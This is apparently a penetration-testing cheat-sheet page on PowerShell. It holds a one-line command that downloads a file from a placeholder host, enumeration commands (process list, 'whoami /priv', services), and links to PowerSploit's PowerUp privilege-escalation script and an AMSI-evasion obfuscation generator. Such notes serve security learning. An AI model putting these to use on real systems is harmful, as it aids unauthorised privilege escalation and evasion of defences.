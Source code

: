 ##### [Execute PowerUp.ps1](../../../../Tools/Shells/Windows/PowerShell/PowerSploit/PowerUp.md)

##### Download A File To Disk
```bash
powershell -c wget "http://<Source Address>/<Source File>" -outfile "<Output File>"
```

##### Get list of processes running, sorted by name.
```powershell
tasklist /NH | sort
```

```bash
whoami /priv
```

# Services
##### Get List of Running Services
```powershell
powershell Get-Service
```

# References
##### [Generates obfuscated PowerShell snippets](https://amsi.fail/)

##### [Approved Verbs for PowerShell Commands](https://docs.microsoft.com/en-us/powershell/scripting/developer/cmdlet/approved-verbs-for-windows-powershell-commands?view=powershell-7.2&viewFallbackFrom=powershell-7.1)

##### [Everything you wanted to know about the if statement](https://docs.microsoft.com/en-us/powershell/scripting/learn/deep-dives/everything-about-if?view=powershell-7.2&viewFallbackFrom=powershell-7.1)

##### [How to run a PowerShell script from the command prompt?](https://www.tutorialspoint.com/how-to-run-a-powershell-script-from-the-command-prompt)

##### [Learn X in Y minutes](https://learnxinyminutes.com/docs/powershell/)

##### [Powershell](https://chryzsh.gitbooks.io/darthsidious/content/enumeration/powershell.html)

##### [PowerShell Documentation](https://docs.microsoft.com/en-us/powershell/)

##### [PowerShellMafia](https://github.com/PowerShellMafia)

##### [PowerSploit](https://github.com/PowerShellMafia/PowerSploit)

##### [Use Windows PowerShell to search for files](https://devblogs.microsoft.com/scripting/use-windows-powershell-to-search-for-files/)

##### [Where-Object](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/where-object?view=powershell-7.2&viewFallbackFrom=powershell-7.1)